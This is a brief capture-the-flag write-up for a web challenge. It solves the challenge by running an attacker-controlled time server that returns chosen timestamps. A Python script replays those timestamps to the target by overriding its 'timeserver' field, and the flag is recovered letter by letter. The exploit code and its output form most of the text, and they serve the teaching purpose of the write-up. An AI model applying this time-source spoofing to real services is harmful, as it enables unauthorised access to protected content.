```yaml
---
created: 2024-06-22T17:30
updated: 2024-06-22T17:33
---
```


I went on a large tangent searching for ways to crack the ECC and DSS.

Then I realised that this is a web challenge.

The true solution is to setup my own time server, and just tell the server, to use my own time server.

On my own server, the code has also been altered to allow custom time.

```python
if 'time' in self.path:
	time_query = self.path.split('=')[1]
	timestamp = str(int(time_query)).encode('utf-8')
else:
	timestamp = str(int(time.time())).encode('utf-8')
```

```python
import requests
txt = []
for i in range(12):
    req = requests.get("https://my.server?time=" + str(i*60*60*24+1719090812))
    json_data = req.json()
    json_data["timeserver"] = "my.server"
    response = requests.post("https://web-one-day-one-letter-content-lz56g6.wanictf.org/", json=json_data)
    txt.append(response.text.split("\n")[1])
    txt = [list(row) for row in txt]
    transposed_txt = list(map(list, zip(*txt)))
    print(''.join([next((c for c in l if c!='?'), '?') for l in transposed_txt]))
```

```
<p>Flag is FLAG{l???????????}.</p>
<p>Flag is FLAG{ly??????????}.</p>
<p>Flag is FLAG{lyi?????????}.</p>
<p>Flag is FLAG{lyin????????}.</p>
<p>Flag is FLAG{lying???????}.</p>
<p>Flag is FLAG{lyingt??????}.</p>
<p>Flag is FLAG{lyingth?????}.</p>
<p>Flag is FLAG{lyingthe????}.</p>
<p>Flag is FLAG{lyingthet???}.</p>
<p>Flag is FLAG{lyingtheti??}.</p>
<p>Flag is FLAG{lyingthetim?}.</p>
<p>Flag is FLAG{lyingthetime}.</p>
```
